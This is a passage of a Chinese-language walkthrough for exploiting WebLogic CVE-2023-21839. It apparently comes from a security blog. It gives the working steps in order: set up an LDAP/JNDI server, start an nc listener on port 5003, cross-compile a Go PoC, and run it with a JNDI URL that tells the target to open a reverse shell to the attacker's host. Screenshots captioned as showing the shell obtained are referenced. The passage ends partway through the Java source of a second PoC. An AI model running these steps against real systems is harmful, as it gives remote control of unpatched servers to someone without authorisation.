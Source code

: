 ![开启jndi服务](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402161951377.png)



**⚠️注意搭建ldapserver的服务器需要开启1389和3456端口，否则无法收到目标机的请求**



vps本地监听5003端口，等待反弹shell

```
nc -lvvp 5003
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304161724373.png" alt="本地监听5003端口" style="zoom:50%;" />



go编译poc

go编译设置操作系统为linu【通过GOOS设置编译操作系统，使用GOARCH设置CPU架构，即编译后的二进制文件要在哪个操作系统的哪个CPU架构上运行】

```
go build -o poc2 【mac】
GOOS=linux GOARCH=amd64 go build -o poc2
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304161708621.png" alt="go编译poc" style="zoom:50%;" />



运行poc利用,反弹shell

```
./poc2 -ip 172.17.0.1 -port 7001 -ldap ldap://1.xxx.172:1389/Basic/ReverseShell/1.xxx.172/5003
```

![运行poc](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402161953411.png)



ldap服务器收到请求

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402161954253.png" alt="ldap服务器" style="zoom:50%;" />



监听端口拿到shell

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202402161955415.png" alt="getshell" style="zoom:50%;" />



### poc2

https://github.com/DXask88MA/Weblogic-CVE-2023-21839

原始：

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.lang.reflect.Field;
import java.util.Hashtable;


public class poc {
    static String JNDI_FACTORY="weblogic.jndi.WLInitialContextFactory";
    private static InitialContext getInitialContext(String url)throws NamingException
    {
        Hashtable<String,String> env = new Hashtable<String,String>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
```